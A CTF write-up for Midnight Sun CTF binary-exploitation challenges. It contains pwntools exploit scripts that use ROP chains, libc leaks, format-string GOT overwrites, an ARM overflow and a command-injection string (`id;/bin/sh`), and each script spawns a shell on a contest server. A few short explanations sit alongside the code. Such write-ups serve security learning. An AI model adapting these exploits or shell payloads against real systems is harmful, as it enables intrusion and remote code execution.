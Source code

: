 ## Pwn1

Basic buffer overflow.

```python
from pwn import *
context.arch = 'amd64'

r = remote("pwn1-01.play.midnightsunctf.se",10001)

pop_rdi = 0x0000000000400783
pop_rsi_r15 = 0x0000000000400781
main = 0x000000000400698

sh = flat([ 'a'*0x48, pop_rdi, elf.got['puts'], elf.plt['puts'], main ])

r.sendlineafter("buffer: ", sh)

a = u64(r.recv(6).ljust(8, b'\x00')) - libc.sym['puts']
libc.address = a

sh = flat([ 'a'*0x48, a + 0x10a38c ])

r.sendlineafter("buffer: ", sh)
r.interactive()
```

## Pwn2

Basic format string. We can change exit.got to main function and leak libc address. Then change printf.got to system and get shell.

```python
from pwn import *
context.arch = 'amd64'

r = remote("pwn2-01.play.midnightsunctf.se",10002)

sh = p32(elf.got['exit'])
sh += p32(elf.got['exit'] + 1)
sh += "%{}c%7$hhn".format(235-8)
sh += "%{}c%8$hhn".format(133-8+29)
sh += "%2$x"

r.sendlineafter("input: ", sh)

r.recvuntil("\xc0")
a = int(r.recvline().strip(), 16) - libc.sym['_IO_2_1_stdin_']
libc.address = a

system = libc.sym['system']
x1 = system & 0xff
x2 = (system >> 8) & 0xff
x3 = (system >> 16) & 0xff
sh = p32(elf.got['printf'])
sh += p32(elf.got['printf']+1)
sh += p32(elf.got['printf']+2)
sh += "%{}c%7$hhn".format(x1 - 0xc)
sh += "%{}c%8$hhn".format(x2 - x1)
sh += "%{}c%9$hhn".format(x3 - x2)

r.sendlineafter("input: ", sh)
r.recv()

r.sendlineafter("not found", "/bin/sh")
r.interactive()
```

## Pwn3

Basic arm buffer overflow.

```python
from pwn import *
context.arch = 'amd64'

#r = process(["qemu-arm", "-g", "1234", "./pwn3"])
r = remote("pwn3-01.play.midnightsunctf.se", 10003)

gadget = 0x0001fb5c
binsh = 0x00049018
system = 0x00014B5C+1

sh = '\x00'*0x88 + p32(0x10168)
sh += p32(gadget) 
sh += p32(binsh)
sh += p32(0)
sh += p32(system)

r.sendlineafter("buffer: ", sh)
r.interactive()
```

## Pwn4

A nice format string challenge. Didn't solve it, but found its solution very delicate and I learn something new.

[Reference from mebeim](https://gist.github.com/mebeim/f74504ec20399ecb9384f826391f7598)

> Basic idea:
> Copy the secret (4 bytes) from the stack to our guess variable (also on the stack) and pass the check.
>
> `%<N>d` normally this lets us print N characters total (a decimal int padded to N spaces).  
> `%*25$d` the asterisk lets us choose the value for N from the stack, so we choose `25$`, which is the position of the secret value: this will therefore print a number of chars equal to the secret value.  
> `%16$n` this will then write the number of printed chars to our variable on the stack (position 16) that is later compared with the secret.
>
> This will print *A LOT* of characters back (like 1GB of spaces), but works after trying a few times!

`%*<N>$d` 可以打印出一长串字符，这些字符的数量和栈上某个变量相等。`%<X>$n` 可以修改栈上某指针保存的值。因此，这两个格式化字符串合并起来，就可以达到栈上的复制功能，可以将某个我们不知道的 secret 复制到某个地址中。

## Pwn5

Mips pwn. [Reference](https://fireshellsecurity.team/midnight-pwn-2-3-5/)

## Pwn6

Arbitrary write. We can change `_IO_2_1_stdout_` to leak libc address, and change `_IO_2_1_stdin_` to construct a rop chain.

[Reference](http://blog.redrocket.club/2020/04/06/midnightsunctf-quals-2020-pwn6/)

## Admpanel

`system("id;/bin/sh")` to bypass the check.

## Admpanel2

There is a vuln in `log` function. `snprintf` will return requested size no matter if it already covers this size. So the max_size can be negative. Thus we can overflow and build rop chain.

```python
from pwn import *
context.arch = 'amd64'

r = remote("admpanel2-01.play.midnightsunctf.se", 31337)

pop_rdi = 0x00000000004016cb
binsh = 0x4041d3

r.sendlineafter("> ", '1')
r.sendlineafter("username: ", 'admin'+'a'*0xee+"/bin/sh")
r.sendlineafter("password: ", 'password')

r.sendlineafter("> ", '2')
sh = p64(0x4015A1)
sh += p64(pop_rdi)
sh += p64(binsh)
sh += p64(0x000000000040159B)
r.sendlineafter("execute: ", sh) 

r.interactive()
```